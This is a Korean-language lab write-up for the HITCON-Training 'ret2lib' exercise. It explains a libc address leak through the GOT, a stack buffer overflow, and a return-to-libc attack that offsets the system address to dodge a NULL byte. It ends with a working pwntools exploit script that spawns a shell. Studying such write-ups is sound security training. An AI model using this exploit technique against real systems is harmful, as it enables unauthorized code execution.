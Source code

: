 # 문제
***


해당 바이너리는 read를 통해 입력 받은 주소에 저장되어 있는 값을 출력한다. 

-> 이를 통해서 ASLR이 걸려 있는 바이너리의 libc base address를 알 수 있다.

그 다음 read 함수와 strcpy를 호출하는데 이를 통해서 bof를 발생시킬 수 있다.

NX가 enabled 되어 있기 때문에 return to library 공격을 시도했다. 그런데 Ubuntu 18.04의 경우 leak한 system 주소의 마지막 바이트에 NULL이 들어간다. ( ASLR에 의해서 중간에 있는 2byte 주소가 랜덤화된다.) 

system 함수는 대략 아래와 같이 생겼다,

```
<+0> sub esp, 0xc
<+3> mov eax, DWORD PTR [esp+0x10]
<+7> call 0xf7f1437d <__x86.get_pc_thunk.dx>
...
...
call 0xf7e19ce0 <do_system>
```

=> system 함수는 eax에 인자를 넣어주고 do_system 함수를 호출한다. 

system 함수 주소의 NULL 바이트 값으로 인해서 strcpy가 중간에 끊기는 것을 막기 위해서 system 함수의 주소 대신에 system+3 주소 값을 넣어주고 esp+0x10에 "/bin/sh"의 주소가 위치하게 payload를 구성한다. 

또는 system 함수의 주소 대신 system - 특정 값을 넣어주면 된다. 하지만 이 경우에는 system - 특정 값에 위치한 명령어들이 제대로 실행될 수 있는 환경을 갖추고 있어야 한다. (e.x) system - 2 에 mov al, [eax]가 있으면 eax에 있는 값이 readable한 주소여야한다.)

다른 방법으로는 payload를 get(bss) + do_system로 구성하고 bss에 "/bin/sh" 넣어주는 방법도 있다. (get의 return 값은 인자값이므로 eax에 bss의 주소가 들어간다. 그리고 bss 영역은 ASLR이 걸려있지 않아 주소가 변경되지 않는다.)

c.f)
=> __x86.get_pc_thunk.dx는 아래와 같이 구성되어 있다. 
```
mov edx, DWORD PTR [esp]
ret
```

위 코드를 통해서 다음에 수행할 명령어의 위치를 알아낼 수 있다. (PIE, ASLR에서 사용됨)


# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/HITCON-Training/LAB/lab4/ret2lib"

puts_got=0x0804a01c
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

p=process(file_path)


p.recvuntil("(in dec) :")
p.send(str(puts_got))
p.recvuntil("address : ")
puts=p.recv(10)

libc_base=int(puts,16)-libc.symbols['puts']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

data=p.recvuntil(":")

pay="A"*0x3c
pay+=p32(system+3)  # system_addr_contains_NULL
pay+="AAAA"*4
pay+=p32(sh)

p.send(pay)

p.interactive()
```

